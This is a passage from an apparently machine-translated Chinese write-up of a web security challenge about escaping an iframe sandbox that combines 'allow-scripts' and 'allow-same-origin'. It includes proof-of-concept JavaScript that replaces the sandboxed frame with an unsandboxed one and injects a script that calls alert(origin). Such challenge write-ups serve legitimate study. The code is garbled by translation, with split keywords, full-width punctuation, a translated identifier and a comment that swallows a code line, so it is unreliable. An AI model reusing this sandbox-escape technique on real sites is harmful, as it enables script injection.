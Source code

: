 # 4.打破沙盒

我们的挑战是显示一个警告框，如果你看这里

> //创建沙盒 iframe
> analytics frame = document . createelement(' iframe ')；
> analytics frame . set attribute(' sandbox '，'**allow-scripts allow-same-origin**')；
> analytics frame . set attribute(' class '，' invisible ')；
> document . body . appendchild(analytics frame)；

因为我们的脚本加载在 iframe 中，为了能够显示一个警告框，我们需要一个属性 *allow-modal* ，这里没有。

不要再谷歌 iframe 沙盒旁路了，你不会找到任何有价值的东西，但是如果你去[这里](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe)并向下滚动。您将看到一条警告消息。

> **关于沙盒的注意事项:**
> 
> 当嵌入的文档与嵌入的页面具有相同的原点时，**强烈建议**不要同时使用`allow-scripts`和`allow-same-origin`，因为这会让嵌入的文档删除`sandbox`属性——这并不比完全不使用`sandbox`属性更安全。

我们的脚本与沙盒的原始 iframe。

因此，我们必须编写一个脚本，删除 iframe 并用一个没有限制的 iframe 替换它。你跟着吗？这听起来很容易，但实际上这方面的信息并不多。

[Dusekdan](https://github.com/dusekdan/RandomSecurity/tree/master/iframeSandboxDiscouragedCombination) 为我们提供了这方面的概念验证——遗憾的是，它真的不能马上为我们工作，所以下面是我做了一些调整的代码(我没有删除这次演示的一些原始代码，因为它提供了很好的可视化效果):

> const illegal code =()= > {
> alert("您应该看不到我，因为原始 iframe 没有' allow-modals '。尽管 iframe 有 allow-scripts 和同源。创建了一个没有沙盒属性的新 iframe 我就在这里了。”);
> //遗憾的是，这无论如何都无法启动
> }
> 
> const escape =()= > {
> document . body . innertext = " Loaded into a frame，"；
> 
> let parent = window.parent
> let container = parent . document . getelementsbytagname(" iframe ")[0]；
> if(parent . document . getelementsbytagname(" iframe ")[0]！= null) {
> //重新创建并插入一个没有沙盒属性的 iframe，
> //按照我们的规则玩。
> let replacement = parent . document . createelement(" iframe ")；
> replacement . set attribute(" id "，" escaped already ")；
> //由于
> //frame-src self csp，我们不再使用 src 到这个脚本，一个干净的解决方法是在脚本标签
> 中输入数据，让 g = document . createelement(" script ")；
> g . innerhtml = " alert(origin)"；
> replacement . appendchild(g)；
> parent . document . body . append(替换)；
> 
> //移除原 iframe(避免无限循环)
> container . parent node . Remove child(container)；
> 
> //else 语句中的代码对我们不起作用，因为我们没有再次打开这个脚本//
> } else {
> illegal code()；
> }
> }
> 
> escape()；
